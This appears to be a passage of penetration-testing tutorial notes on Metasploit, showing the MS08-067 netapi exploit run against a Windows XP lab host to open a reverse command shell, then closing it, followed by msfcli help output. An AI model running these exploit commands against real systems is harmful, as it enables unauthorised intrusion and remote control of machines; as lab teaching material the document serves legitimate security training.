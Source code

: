 ```
msf  exploit(ms08_067_netapi) > set LHOST _<local_host_ip>_
```

- running the exploit again

```
msf  exploit(ms08_067_netapi) > exploit

[*] Started reverse handler on 192.168.20.9:4444 ❶
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX) ❷
[*] Attempting to trigger the vulnerability...
[*] Command shell session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1374)
    at 2015-08-31 10:29:36 -0400

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

- closing the shell

To close the shell, type ctrl-C and enter **`y`** at the prompt to abort the session.

```
C:\WINDOWS\system32>^C
Abort session 2? [y/N]  y

[*] Command shell session 2 closed.  Reason: User exit
msf  exploit(ms08_067_netapi) >
```

### Msfcli

Msfcli is a command line interface. Used particularly when metasploit is used within scripts and for testing metasploit modules

- getting help for msfcli

use the `-h` flag to get help on the msfcli command

```
root@kali:~# msfcli -h
❶ Usage: /opt/metasploit/apps/pro/msf3/msfcli <exploit_name> <option=value> [mode]
  ==============================================================================

      Mode           Description
      ----           -----------
      (A)dvanced     Show available advanced options for this module
      (AC)tions      Show available actions for this auxiliary module
      (C)heck        Run the check routine of the selected module
      (E)xecute      Execute the selected module
      (H)elp         You're looking at it baby!
      (I)DS Evasion  Show available ids evasion options for this module
     ❷(O)ptions      Show available options for this module
     ❸(P)ayloads     Show available payloads for this module
      (S)ummary      Show information about this module
      (T)argets      Show available targets for this exploit module
```

